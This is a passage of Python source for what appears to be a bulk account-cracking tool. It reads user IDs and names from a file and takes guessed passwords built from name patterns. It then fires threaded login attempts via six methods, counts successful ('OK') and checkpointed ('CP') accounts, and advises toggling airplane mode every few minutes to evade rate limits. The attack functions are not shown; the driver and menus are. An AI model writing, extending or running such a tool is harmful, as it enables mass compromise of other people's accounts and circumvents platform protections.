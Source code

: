            if mtd in ['A','a','01','1']:error.submit(randm, ids, psd,tl)
            elif mtd in ['B','b','02','2']:error.submit(randm1, ids, psd,tl)
            elif mtd in ['C','c','03','3']:error.submit(randm2, ids, psd,tl)
            elif mtd in ['D','d','04','4']:error.submit(randm3, ids, psd,tl)
            elif mtd in ['5','e','05','E']:error.submit(randm4, ids, psd,tl)
            elif mtd in ['6','f','06','F']:error.submit(randm5, ids, psd,tl)
    print('')
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    print(f' {red}[{green}●{red}]{green} THE PROCESS HAS BEEN COMPLETE...')
    print(f' {red}[{green}●{red}]{green} TOTAL OK {red}:{green} %s' % str(len(oks)))
    print(f' {red}[{green}●{red}]{green} TOTAL CP {red}:{green} %s' % str(len(cps)))
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    input(f" {red}[{white}●{red}]{green} PRESS ENTER TO BACK MENU ")
    ___ImRAn___MaIN___MenU___()
#---------FILE MENU
def ___ImRAn___FiLE___MenU___():
    global methods
    clear()
    print(f' {red}[{white}●{red}] {green}EXAMPLE »» {red}[{green}sdcard/filename.txt{red}]');line()
    dfile = input(f' {red}[{white}●{red}] {green}INPUT YOUR FILE {red}➠ {green}');line();clear()
    try:
        dx = open(dfile,'r').read().splitlines()
    except FileNotFoundError:
        print(f' {red}[{white}×{red}] FILE NOT FOUND...');time.sleep(1);___ImRAn___FiLE___MenU___()
    dplist = []
    try:
        pass_lmit = int(input(f' {red}[{white}●{red}] {green}INPUT PASS LIMITS {red}➠ {green}'));line()
    except:
        pass_lmit = 3
    print(f' {red}[{white}●{red}] {green}EXAMPLE {red}[{green}firstlast first123 ETC{red}]')
    line()
    for i in range(pass_lmit):        
        dplist.append(input(f' {red}[{white}●{red}] {green}PASSWORD NO.{i+1} {red}➠ {green}'));line()
    __METHOD__ = input(f" {red}[{white}1{red}]{green} METHOD M1 \n {red}[{white}2{red}] {green}METHOD M2 \n {red}[{white}3{red}] {green}METHOD M3 \n {red}[{white}4{red}] {green}METHOD M4 \n {red}[{white}5{red}] {green}METHOD M5 \n {red}[{white}6{red}] {green}METHOD M6{white}\n{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}\n {red}[{white}◆{red}] {green}CHOICE {white}➠ {green}");clear()
    with ThreadPoolExecutor(max_workers=30) as error:
        clear()
        print(f' {red}[{white}●{red}] {green}TOTAL IDS {red}[»{green}{len(dx)}{red}«] {green}METHOD {red}[»{green}{__METHOD__}{red}«]')
        print(f' {red}[{white}●{red}] {green}TURN {red}[{green}On/Off{red}]{green} ✈ MODE EVERY 4 MIN')
        line()
        for user in dx:
            ids,names = user.split('|')
            tl = len(dx)
            passlist = dplist
            if __METHOD__ in ["A","a","1","01"]:
                error.submit(__MTDONEE__,ids,names,passlist,tl)
            elif __METHOD__ in ["B","b","2","02"]:
                error.submit(__MTDTWOO__,ids,names,passlist,tl)
            elif __METHOD__ in ["C","c","3","03"]:
                error.submit(__MTDTHREE__,ids,names,passlist,tl)
            elif __METHOD__ in ["D","d","4","04"]:
                error.submit(__MTDFOUR__,ids,names,passlist,tl)
            elif __METHOD__ in ["E","e","5","05"]:
                error.submit(__MTDFIVE__,ids,names,passlist,tl)
            elif __METHOD__ in ["F","f","6","06"]:
                error.submit(__MTDONE6__ ,ids,names,passlist,tl)
            else:
                error.submit(__MTDONEE__,ids,names,passlist,tl)
    print('')
    print(f'\r {red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
